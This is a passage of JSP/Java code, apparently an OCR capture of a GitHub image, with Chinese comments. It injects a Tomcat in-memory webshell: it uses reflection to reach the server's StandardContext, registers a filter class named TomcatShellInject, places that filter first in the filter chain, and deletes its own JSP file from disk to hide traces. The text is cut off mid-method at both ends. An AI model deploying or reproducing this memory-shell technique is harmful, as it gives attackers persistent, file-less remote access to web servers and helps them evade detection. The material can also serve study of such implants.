 ```jsp
                                    Object o = filterMaps[i];
                                    m = ccc.getMethod("getFilterName");
                                    String name = (String) m.invoke(o);
                                    if (name.equalsIgnoreCase(filterName)) {
                                        tmpFilterMaps[0] = o;
                                    } else {
                                        tmpFilterMaps[index++] = filterMaps[i];
                                    }
                                }
                                for (int i = 0; i < filterMaps.length; i++) {
                                    filterMaps[i] = tmpFilterMaps[i];
                                }
                            }
                        }
                    }
                    //删除文件
                    new File(servletContext.getRealPath(filename)).delete();
                    return true;
                }
                else{
                    return false;
                }
            } catch (Exception e) {
                e.printStackTrace();
                return false;
            }
        }

        public Boolean init2(String filename, HttpServletRequest request) {
            try {
                javax.servlet.ServletContext servletContext = request.getServletContext();;
                if (servletContext != null) {
                    Class c = Class.forName("org.apache.catalina.core.StandardContext");
                    Object standardContexts = null;
                    //判断是否已有该名字的filter，有则不再添加
                    if (servletContext.getFilterRegistration(filterName) == null) {
                        //遍历出标准上下文对象
                        for (; standardContexts == null; ) {
                            java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField("context");
                            contextField.setAccessible(true);
                            Object o = contextField.get(servletContext);
                            if (o instanceof javax.servlet.ServletContext) {
                                servletContext = (javax.servlet.ServletContext) o;
                            } else if (c.isAssignableFrom(o.getClass())) {
                                standardContexts = o;
                            }
                        }
                        StandardContext standardContext = (StandardContext) standardContexts;
                        if (standardContext !=null) {

                            Filter filter = new TomcatShellInject();
                            FilterDef filterDef = new FilterDef();
                            filterDef.setFilterName(filterName);
                            filterDef.setFilterClass(filter.getClass().getName());
                            filterDef.setFilter(filter);

                            standardContext.addFilterDef(filterDef);

                            FilterMap m = new FilterMap();
                            m.setFilterName(filterDef.getFilterName());
                            m.setDispatcher(DispatcherType.REQUEST.name());
                            m.addURLPattern(filterUrlPattern);
```